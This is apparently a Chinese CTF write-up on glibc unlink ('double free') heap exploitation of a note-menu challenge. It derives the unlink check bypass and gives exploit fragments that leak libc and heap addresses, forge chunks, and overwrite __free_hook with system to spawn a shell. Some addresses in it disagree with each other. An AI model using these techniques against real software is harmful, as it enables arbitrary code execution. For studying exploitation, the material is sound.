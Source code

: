 ## double free的基本原理
```
FD = P->fd;
BK = P->bk;
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK;
    BK->fd = FD;
}
```
根据chunk的结构可知 `p->fd=p+0x10,p->bk=p+0x18`<br>
所以上面代码就可以转换成<br>
```
FD = P->fd; //FD = P + 0x10
BK = P->bk; //BK = P + 0x18
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) //FD + 0x18 != P || BK + 0x10 != P  
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK; //FD + 0x18 = BK = P + 0x18
    BK->fd = FD; //BK + 0x10 = FD = P + 0x10
}
```
由于其中有 `FD->bk != P || BK->fd != P` 这个判断，所以最容易构造的场景就是找到一个指向P的指针A<br>
```
P = FD->bk && P = BK->fd  ==> P = FD+0x18 && P = BK+0x10
P = FD+0x18 && P = BK+0x10 ==> P = P->fd + 0x18 && P = P->bk + 0x10
A = P //存在指向P的指针A
P = P->fd + 0x18 && P = P->bk + 0x10 ==> A = P->fd + 0x18 && A = P->bk + 0x10
A = P->fd + 0x18 && A = P->bk + 0x10 ==> A - 0x18 = P->fd && A - 0x10 = P->bk
```
推导的结论就是 `P->fd = A - 0x18  &&  P->bk = A - 0x10 ` <br>
能找到满足条件的A，并且将P的fd和bk填充成上述值，就能通过上面的double-linked list的检测<br>
并且能将A的值改写成 <br>
```
BK->fd = FD ==> P->bk->fd = P->fd 
            ==> P->bk = P 
            ==> A->bk = A 
            ==> A+0x18 = A
            ==> A = A - 0x18 //A最终会被赋值成A-0x18的值，这里=不是等，是赋值
```
说人话，double free 就是找到一个指向P的指针A，让P的fd和bk和A互相指，通过if的判断，并且可以修改A的值<br>
这里说的可能不是很清楚，用题目里面的具体数据来解释可能会好一些<br>

## unlink
### 一个menu题目
![](img/menu.PNG)

### 漏洞点
首先看一下new_note<br>
qword_6020A8+8 是note总数量<br>
之后是一个结构体<br>
```
struct note{
    int in_use;     //qword_6020A8+24*i+16
    int len;        //qword_6020A8+24*i+24
    char* data;     //qword_6020A8+24*i+32
}
```
![](img/new_note.PNG)<br>

漏洞点主要在free_note<br>
free_note只将in_use和len清0，总数减一，但是free的时候没有判断这个note是否in_use<br>
并且data的指针只free，没有置空，所以这里存在double free<br>
![](img/free_note.PNG)<br>

### 利用总体思路
1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址<br>
2.使用edit_note合并第一步free的chunk,然后通过list泄露libc基址，用同样的方法泄露出heap的基址<br>
3.利用note结构体中指向heap的指针和heap中的chunk构造double free，使得修改了note结构体中data的地址，让data指向了note结构体<br>
4.edit根据note结构体中的data来写，所以这一步可以对note结构体里面的任意写，这里<br>
```
note[0]->data=free_hook
note[1]->data=note[2]->in_use
note[2]->in_use='/bin/sh\x00'
```
5.然后edit(note[0])就可以修改free_hook的地址，修改成system，之后free(note[1]->data) --> system('/bin/sh\x00')

### 详细的利用步骤
#### 1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址
chunkb和chunkd都被串在unsorted bin 上了<br>
此时chunka即包含libc的基址（指向unsorted bin），也包含指向heap的基址（指向chunkb）<br>
![](img/unsorted_bin.PNG)<br>
```
new(0x100,'a'*0xff)
new(0x100,'b'*0xff)
new(0x100,'c'*0xff)
new(0x100,'d'*0xff)
new(0x100,'e'*0xff)

delete(1)
delete(3)
```

#### 2.使用edit_note合并第一步free的chunk,然后通过list泄露libc基址，用同样的方法泄露出heap的基址
使用chunka去,通过edit_note中的realloc合并chunkb,然后通过list就可以泄露基址了<br>
```
edit(0,0x110,'a'*0x10f)
list()
libc_base=u64(p.recvuntil('\x7f')[-6:] + '\x00\x00')
libc_base = libc_base-0x58-libc.symbols['__malloc_hook']-0x10
success(hex(libc_base))

edit(0,0x118,'a'*0x117)
list()
heap_addr=u64(p.recvuntil('\x60')[-3:] + '\x00'*5)

gbuff=heap_addr-(256+16)*3-0x1810
success(hex(gbuff))
```

#### 3.利用note结构体中指向heap的指针和heap中的chunk构造double free
虽然chunkb在前面被free了，但是在note[1]结构体中依然保存着chunkb的data区域的指针<br>
然后通过edit中的realloc可以修改chunkb的fd和bk伪造chunk<br>
chunka+chunkb的这一块大空间伪造了三个chunk<br>
chunk0(free)+chunk1(将要被free，造成double free)+chunk2(size正常，规避next-size检测机制)<br>
#### Q1:如何double free呢？
我们可以再图2中note[0]->data找到指向chunk1的指针，如果能使chunk1和note[0]->data形成一个双向链表，就可以通过free(chunk2 or old chunkb),然后就会尝试unlink chunk1，由于chunk1满足unlink的检测条件，所以这里可以unlink成功，并且可以将note[0]->data修改成chunk1的fd<br><br>
#### Q2:为什么可以free(chunk2 or old chunkb)，chunk2不是已经在new chunka中了吗？
free_note的时候并没有检查当前chunk是否处于in_use的状态，并且也没有对note->data区域清空，所以这里可以再次free<br><br>
#### Q3:为什么chunk1的fd=0x601018,bk=0x601020，就可以满足double free的条件？
因为要通过double的检测，所以chunk1->fd->bk=chunk1，(chunk1->fd)+0x18=0x603030,0x603030指向的就是chunk1<br>
得到chunk1->fd=0x603018,同理 chunk1->bk=0x603030-0x10 = 0x603020。<br><br>
#### Q4:为什么unlink chunk1之后会将note[0]->data修改成0x603018?
对于我们这种情况，chunk1->fd->bk = chunk1->bk->fd = 0x603030(note[0]->data)<br>
即 FD->bk=BK->fd=0x603030(note[0]->data)，之后对FD->bk、BK->fd进行了赋值<br>
FD->bk=chunk1->bk,chunkBK->fd=chunk1->fd，所以note[0]->data最终被赋值成chunk1->fd<br><br>
![](img/double_free_heap.PNG)<br>
图1：heap<br>
![](img/double_free_note.PNG)<br>
图2：note<br>










